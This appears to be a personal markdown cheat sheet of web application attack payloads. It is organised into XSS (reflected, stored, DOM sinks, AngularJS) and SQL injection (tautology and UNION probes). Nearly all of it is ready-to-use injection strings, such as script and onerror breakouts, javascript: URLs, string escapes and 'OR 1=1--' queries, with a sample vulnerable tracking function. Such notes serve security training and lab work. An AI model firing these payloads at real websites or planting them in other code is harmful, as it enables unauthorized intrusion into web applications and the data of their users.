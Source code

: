 # **<a name="webapp">Web Application table of Contents</a>**
* [XSS](#xss)
* [SQLi](#SQLi)


# **<a name="xss">XSS</a>**

## Reflected 
`GET /?search=<script>alert(1)</script> HTTP/1.1`

### escape script and backslash

`</script><img src=1 onerror=alert(document.domain)>`

`</script><script>alert(1)</script>`

### Brak out of javascript string

`'-alert(document.domain)-'`

`'+alert(document.domain)+'`

`';alert(document.domain)//`

`http://foo?&apos;-alert(1)-&apos;`

`${alert(document.domain)}`

`javascript:"/*'/*'/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>`


## Stored

Enter the following into the comment box

`<script>alert(1)</script>`

`"onmouseover="alert(1)`

Inserted in GET/POST request

`<a id="author" href="javascript:alert(document.domain)">test</a>`

## DOM XSS

If you search 5333 in search bar

in javascript function calls 

                        function trackSearch(query) 
                        {document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');}
                        var query = (new URLSearchParams(window.location.search)).get('search');
                        if(query){trackSearch(query);}
                    
                        <img src="/resources/images/tracker.gif?searchTerms=5333">
                        
                        
search for 

` "><svg onload=alert(1)>`

this will break out new paramiter in javascript

 Document sink
 
 `name=<img+src+onerror=alert(1)>`
 
 Location sink
 
 `redir=javascript:alert(1)`
 
 `&storeId="></select><img+src%3d1+onerror%3dalert(1)>`
 
  Execution sink eval call error
  
  `index=alert(1)`
  
  angular js sink
  
  `{{$on.constructor('alert(1)')()}}`
 
 
# **<a name="SQLi">SQLi</a>**

`xyz' OR 1=1--`

## Union


Injection

`xyz' UNION SELECT 'a' WHERE 1=1--`

`xyz' UNION SELECT 'a' WHERE 1=2--`

